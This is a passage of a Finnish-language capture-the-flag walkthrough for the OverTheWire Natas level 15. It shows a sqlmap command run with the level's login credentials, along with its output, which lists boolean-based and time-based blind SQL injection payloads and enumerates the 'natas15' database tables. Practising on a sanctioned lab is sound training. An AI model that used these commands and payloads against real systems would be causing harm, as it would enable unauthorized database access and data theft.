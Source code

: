 ```

[14:55:09] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'
[14:55:09] [WARNING] your sqlmap version is outdated

[*] ending @ 14:55:09 /2025-05-18/
```

Seuraavaksi: <br><br>
Nyt tässä sama kuin ylempi, mutta kokoajan mennään syvemmäksi tähän tietokantaan -D (database), --tables (taulukko), users --columns (sarake)
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--string "This user exists" \
-D natas15 --tables users --columns
        ___
       __H__                                                                                                                              
 ___ ___[.]_____ ___ ___  {1.8.5#stable}                                                                                                  
|_ -| . [)]     | .'| . |                                                                                                                 
|___|_  [.]_|_|_|__,|  _|                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:55:48 /2025-05-18/

[14:55:48] [INFO] resuming back-end DBMS 'mysql' 
[14:55:48] [INFO] testing connection to the target URL
[14:55:48] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=natas16" AND 1660=1660-- PPEC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=natas16" AND (SELECT 2128 FROM (SELECT(SLEEP(5)))AGpI)-- cjDo
---
[14:55:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL < 5.0.12
[14:55:48] [INFO] fetching tables for database: 'natas15'
[14:55:48] [INFO] fetching number of tables for database 'natas15'
[14:55:48] [INFO] resumed: 1
[14:55:48] [INFO] resumed: users
Database: natas15
[1 table]
+-------+
| users |
+-------+
```